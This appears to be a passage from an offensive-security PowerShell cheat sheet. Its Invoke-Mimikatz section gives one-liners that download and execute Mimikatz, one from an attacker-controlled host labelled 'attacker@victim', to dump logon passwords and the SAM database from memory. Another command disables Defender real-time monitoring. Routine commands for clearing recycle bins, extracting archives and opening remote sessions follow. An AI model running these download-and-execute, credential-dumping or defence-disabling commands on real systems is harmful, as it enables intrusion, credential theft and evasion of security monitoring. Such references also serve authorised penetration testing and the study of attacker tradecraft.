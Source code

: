 **Find other things that Mimikatz can do in** [**this page**](broken-reference)**.**

### Invoke-Mimikatz

```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

{% code title="attacker@victim" %}
```csharp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode %}

## Empty Recycle Bin PowerShell

#### Clear all recycle bins <a href="#1--clear-all-recycle-bins" id="1--clear-all-recycle-bins"></a>

```
Clear-RecycleBin
```

## Extracting Zipped Archives with PowerShell

```
Expand-Archive -Path E:\DSC.zip -DestinationPath E:\Extract -Verbose
```

## Disable Reatime Monitoring (Defender)

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## New PSSession on a Remote Machine:

****[**https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2)****

```
$sess = New-PSSession -ComputerName machine.domain.corp
```

#### Enter the Session created:

```
Enter-PSSession -Session $sess
```
